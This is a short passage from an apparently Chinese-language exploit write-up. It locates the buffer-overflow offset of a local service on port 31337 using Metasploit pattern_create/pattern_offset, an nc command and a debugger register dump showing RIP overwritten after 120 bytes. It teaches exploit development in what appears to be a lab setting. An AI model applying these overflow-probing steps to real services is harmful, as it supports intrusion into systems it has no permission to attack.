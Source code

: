 #### 3.3 位置查找

也不知道第几个 A 开始就报错，使用 pattern\_create.rb 生成 500 个，再使用 pattern\_offset.rb 定位  
从结果中可以知道：

1.  前面 120 个字符之后就开始覆盖 RIP 了
2.  栈能存 112

```plain
locate pattern_create.rb
pattern_create.rb -l 500

pattern_offset.rb -q Ae0A
pattern_offset.rb -q d7Ad

echo '生成的 500 字符' | | nc localhost 31337
```

```plain
//结果
 RBP  0x3964413864413764 ('d7Ad8Ad9')
 RSP  0x7fffffffd0d8 ◂— 0x6541316541306541 ('Ae0Ae1Ae')
 RIP  0x4009aa (handlecmd+70) ◂— ret
```

[![](assets/1703831476-2a3b85a76eea5fddd09f79fd92c18d92.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224805-f156bf10-a4c6-1.png)
